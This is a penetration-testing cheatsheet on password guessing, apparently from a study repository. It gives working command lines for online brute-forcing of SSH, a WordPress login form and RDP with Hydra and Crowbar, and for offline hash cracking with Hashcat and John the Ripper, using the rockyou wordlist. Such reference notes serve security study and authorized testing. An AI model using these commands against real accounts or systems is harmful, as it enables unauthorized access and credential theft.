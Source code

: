 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/Cheatsheets/exploit_password_guessing.md">Top of Page</a> |
  <a href="/Cheatsheets/exploit_password_guessing.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheet - Password Guessing
## Table of Contents
* [Online](#online)
  * [Hydra](#hydra)
  * [Crowbar](#crowbar)
* [Offline](#offline)
  * [Hashcat](#hashcat)
  * [John the Ripper](#john-the-ripper)

## Online
### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET -t4 ssh
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/blog/wp-login.php?:log=^USER^&pwd=^PASS^:Error"
```

### Crowbar
```bash
sudo apt install crowbar # version 0.4.1
iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt > ./rockyou-UTF8.txt
crowbar -b rdp -s $TARGET/32 -u administrator -C rockyou-UTF8.txt -n 1
```

## Offline
### Hashcat
```bash
hashcat -m 1000 -a 0 --force --show hashes.dump /usr/share/wordlists/rockyou.txt 
```

### John the Ripper
```bash0 
unshadow demo-passwd demo-shadow > demo-unshadow
john demo-unshadow --wordlist=/usr/share/wordlists/rockyou.txt
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/Cheatsheets/exploit_password_guessing.md">Top of Page</a> |
  <a href="/Cheatsheets/exploit_password_guessing.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
